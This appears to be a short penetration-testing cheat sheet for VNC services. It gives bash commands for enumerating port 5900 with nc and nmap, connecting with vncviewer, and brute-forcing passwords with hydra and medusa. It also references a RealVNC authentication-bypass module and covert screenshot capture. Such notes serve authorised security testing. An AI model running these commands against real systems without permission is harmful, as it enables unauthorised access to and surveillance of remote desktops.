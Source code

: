 ## Enumeration

```bash
# Basic version check
nc -nv $TARGET 5900

# Nmap scanning
nmap -p 5900 --script realvnc-auth-bypass,vnc-info,vnc-title $TARGET

# Check for authentication methods
nmap -p 5900 --script vnc-auth $TARGET
```

## Connection

```bash
# Basic connection (may prompt for password)
vncviewer $TARGET

# With password file
vncviewer -passwd passwordfile $TARGET

# Using tightvnc viewer
xtightvncviewer $TARGET

# Specify display number (if not default :0)
vncviewer $TARGET:1
```

## Cracking

```bash
# Hydra brute force
hydra -P rockyou.txt vnc://$TARGET

# Using medusa
medusa -h $TARGET -u root -P rockyou.txt -M vnc

# Specific port
hydra -P rockyou.txt vnc://$TARGET:5901
```

## Exploitation

```bash
# If no authentication required, simply connect
vncviewer $TARGET

# For RealVNC authentication bypass (if vulnerable)
# Use exploit: auxiliary/scanner/vnc/realvnc_authentication_bypass

# Screenshot capture without interaction
vncsnapshot $TARGET screenshot.jpg
```

---